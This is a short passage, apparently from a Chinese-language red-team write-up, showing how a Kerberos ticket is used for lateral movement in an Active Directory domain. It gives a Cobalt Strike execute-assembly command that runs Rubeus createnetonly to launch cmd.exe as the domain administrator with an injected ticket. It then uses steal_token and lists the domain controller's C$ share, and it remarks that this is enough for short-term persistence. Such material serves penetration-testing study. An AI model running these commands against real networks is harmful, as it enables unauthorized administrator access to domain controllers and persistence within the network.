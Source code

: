 复制出票据来，执行命令创建一个新的进程

```plain
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:administrator /password:FakePass /ticket:doIF···vbQ==
```

[![](assets/1707953845-1f86b6a793cd97184c9e65549a5531c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040713-271f86b2-c462-1.png)

再次执行 steal\_token 拿到访问令牌，验证成功 ad 的 cifs 服务，当然机器的密码 30 天会自动更新，短期的权限维持已经足够了；

```plain
ls \\ad.endlessparadox.com\c$
```

[![](assets/1707953845-8981a6df214d1ad82d62835a9e7e45d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040727-2f4da486-c462-1.png)
